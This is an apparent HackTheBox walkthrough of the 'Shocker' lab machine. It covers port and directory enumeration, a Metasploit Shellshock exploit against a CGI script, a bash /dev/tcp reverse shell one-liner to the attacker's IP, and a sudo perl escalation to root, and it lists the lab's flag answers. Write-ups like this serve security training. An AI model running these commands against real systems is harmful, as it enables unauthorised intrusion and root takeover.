









# HackTheBox Walkthrough - Machine: Shocker

**Target IP**: 10.129.83.111  
**Difficulty**: Easy  
**Objective**: Exploit the Shellshock vulnerability to gain a reverse shell and escalate privileges.  


---

## Task 1: How many TCP ports are listening on Shocker?

Performed an Nmap scan:
```bash
nmap -sV -sC -oA nmap/Shocker 10.129.83.111
```


**Open Ports**:
- 80/tcp (HTTP)
- 2222/tcp (SSH)

**Answer**: `2`

---

## Task 2: What is the name of the directory available on the webserver that is a standard name known for running scripts via the Common Gateway Interface?

Used gobuster:
```bash
gobuster dir -u http://10.129.83.111/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```


Found:
- `/cgi-bin/`

**Answer**: `cgi-bin`

---

## Task 3: What is the name of the script in the cgi-bin directory?

```bash
gobuster dir -u http://10.129.83.111/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl
```


Found script:
- `/cgi-bin/user.sh`

**Answer**: `user.sh`

---

## Task 5: What 2014 CVE ID describes a remote code execution vulnerability in Bash when invoked through Apache CGI?

Found via Google search:  


- **CVE**: `CVE-2014-6271`

---

## Gaining Access via Shellshock Exploit

Used Metasploit module:
```bash
msfconsole
search Shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set LHOST 10.10.14.156
set RHOSTS 10.129.83.111
set TARGETURI /cgi-bin/user.sh
run
```


Reverse meterpreter shell obtained.

---

## Submit User Flag

```bash
cat /home/shelly/user.txt
```


**Answer**: `90c5a327907f4c1b29b25e275757a962`

---

## Task 8: Which binary can the shelly user can run as root on Shocker?

Started reverse shell:
```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.156/8888 <&1'
```

Checked sudo permissions:
```bash
sudo -l
```

**Answer**: `perl`

---

## Submit Root Flag



```bash
sudo perl -e 'exec "/bin/sh";'
cat /root/root.txt
```


**Answer**: `bcbcf1bca3a6d0af2a7c84bbda8501e9`
